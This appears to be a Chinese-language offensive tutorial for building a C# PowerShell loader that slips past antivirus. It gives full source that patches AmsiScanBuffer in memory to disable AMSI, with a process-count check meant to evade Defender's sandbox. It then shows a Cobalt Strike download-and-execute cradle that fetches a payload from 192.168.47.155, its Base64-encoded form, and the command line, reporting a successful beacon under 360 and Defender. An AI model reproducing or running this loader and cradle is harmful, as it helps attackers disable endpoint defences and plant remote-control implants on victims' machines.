




# 前言


# 分析powershell

通过查看powershell程序的模块调用，发现有一个名为`System.Management.Automation.ni.dll`，这个Dll包含PowerShell 运行时和所有在 PowerShell 环境中运行的命令

`System.Management.Automation.ni.dll` 是预编译版本的 `System.Management.Automation.dll`，这样 PowerShell 可以更快地加载和运行

若想执行 PowerShell 命令或脚本的 C# 程序，都需要引用 `System.Management.Automation.dll`


# 代码实现

创建一个C#的`.Net Framework`项目，添加引用，点击浏览找到`System.Management.Automation.dll`其所在路径并勾选上




下述代码是一个完整的PowerShell脚本执行环境，它支持接收Base64编码的PowerShell脚本作为参数，解码并执行脚本，同时如果参数中包含"-s"，那么还会执行bypass AMSI的操作。其中AMSI是Windows中用于防止恶意脚本执行的安全机制

```cpp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Runtime.InteropServices;
using System.Text;
using System.Collections.Generic;

namespace MyPowershell
{
    class Program
    {
        // 使用DllImport属性导入kernel32.dll中的GetProcAddress函数，用于获取指定模块的函数或变量的地址。
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        // 导入kernel32.dll中的LoadLibrary函数，用于加载指定的动态链接库，并返回库的句柄。
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);

        // 导入kernel32.dll中的VirtualProtect函数，用于改变指定内存区域的保护属性。
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        // 用于将byte数组中的数据复制到指定的内存地址中。
        private static void copy(Byte[] Patch, IntPtr Address)
        {
            Marshal.Copy(Patch, 0, Address, 6);
        }

        // 此方法通过修改AmsiScanBuffer函数来bypass AMSI检测。
        public static void chaching()
        {
            // 加载amsi.dll
            IntPtr Library = LoadLibrary("a" + "m" + "s" + "i" + ".dll");
            // 获取AmsiScanBuffer函数的地址
            IntPtr Address = GetProcAddress(Library, "Amsi" + "Scan" + "Buffer");
            uint p;
            // 修改AmsiScanBuffer函数的内存保护属性
            VirtualProtect(Address, (UIntPtr)5, 0x40, out p);
            // 准备新的函数字节码
            Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
            // 将新的函数字节码复制到AmsiScanBuffer函数的地址
            copy(Patch, Address);
            Console.WriteLine("Patch Applied");
        }

        static void Main(String[] args)
        {
            // 如果命令行参数为空，结束程序运行
            if (args.Length == 0)
                Environment.Exit(1);
			
            // 判断系统的进程数是否小于40，如果小于40则退出程序(用来反defender的沙箱)
            if (Process.GetProcesses().Length < 40)
            {
                Console.WriteLine("The number of processes in the system is less than 40. Exiting the program.");
                Environment.Exit(0);
            }
            
            List<string> argsList = new List<string>(args);

            // 如果命令行参数中包含“-s”，则执行bypass amsi的操作
            if (argsList.Contains("-s"))
            {
                chaching();
                argsList.Remove("-s"); //从参数数组中移除"-s"
            }

            // 对传入的Base64编码的字符串进行解码
            string temp = Base64Decode(argsList[0]);
            // 运行解码后的PowerShell脚本，并将执行结果输出到控制台
            string s = RunScript(temp);
            Console.WriteLine(s);
            Console.ReadKey();
        }

        // Base64解码函数
        public static string Base64Decode(string s)
        {
            return System.Text.Encoding.Default.GetString(System.Convert.FromBase64String(s));
        }

        // 运行PowerShell脚本并返回执行结果的函数
        private static string RunScript(string script)
        {
            // 创建并打开一个运行空间，用于运行PowerShell命令
            Runspace MyRunspace = RunspaceFactory.CreateRunspace();
            MyRunspace.Open();

            // 在运行空间中创建一个管道，用于存放待执行的PowerShell命令
            Pipeline MyPipeline = MyRunspace.CreatePipeline();
            // 在管道中添加PowerShell命令
            MyPipeline.Commands.AddScript(script);
            // 在管道中添加输出命令，使得PowerShell命令的执行结果能被程序获取
            MyPipeline.Commands.Add("Out-String");

            // 调用管道中的PowerShell命令，并获取执行结果
            Collection<PSObject> outputs = MyPipeline.Invoke();
            // 关闭运行空间
            MyRunspace.Close();

            // 将执行结果转换为字符串
            StringBuilder sb = new StringBuilder();
            foreach (PSObject pobject in outputs)
            {
                sb.AppendLine(pobject.ToString());
            }

            return sb.ToString();
        }
    }
}

```

​		

# 运行测试

## 360核晶环境

360静态查杀没有报毒

	


使用CobaltStrike生成Powershell命令, 我们只需截取以下部分作为payload即可

```
IEX ((new-object net.webclient).downloadstring('http://192.168.47.155:80/a'))
```


将payload进行base64加密

```
SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=
```


打开cmd或powershell执行如下命令，cs上线成功，没有被核晶拦截

```
Mypowershell.exe SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzE5Mi4xNjguNDcuMTU1OjgwL2EnKSk=
```




## Defender环境

在WindowsDefender环境下按照之前的操作执行会被amsi拦截（360是没有集成amsi的）




因此需加上-s参数来绕过amsi，这样CS就能正常上线了




​		


​		